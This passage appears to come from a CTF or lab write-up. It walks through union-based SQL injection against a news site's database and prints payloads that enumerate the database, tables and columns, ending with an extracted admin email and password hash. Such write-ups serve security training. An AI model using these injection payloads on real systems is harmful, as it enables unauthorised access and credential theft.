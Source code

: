 ### Enumerating the Database

With the structure mapped out, I started enumerating internal data. First step: find the active database name.

```sql
' UNION SELECT 1, DATABASE(), 3, 4, 5, 6, 7; -- -
```

**Result:** `news`

With that info, I extracted the table names:

```sql
' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 
  FROM information_schema.tables 
  WHERE table_schema = "news"; -- -
```

**Tables found:**

- tbladmin
- tblcategory
- tblcomments
- tblpages
- tblposts
- tblsubcategory

### Extracting Admin Credentials

Next, I checked the columns in `tbladmin`, hoping to find some credentials:

```sql
' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 
  FROM information_schema.columns 
  WHERE table_name = "tbladmin"; -- -
```

**Columns found:**

- id
- AdminUserName
- AdminPassword
- AdminEmailId
- Is_Active
- CreationDate
- UpdationDate

I built a query to extract email and password:

```sql
' UNION SELECT 1, AdminEmailId, 3, 4, 5, AdminPassword, 7 FROM tbladmin; -- -
```

**Credentials:**

- Email: `admin@uhclabs.com`
- Password hash: `$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`
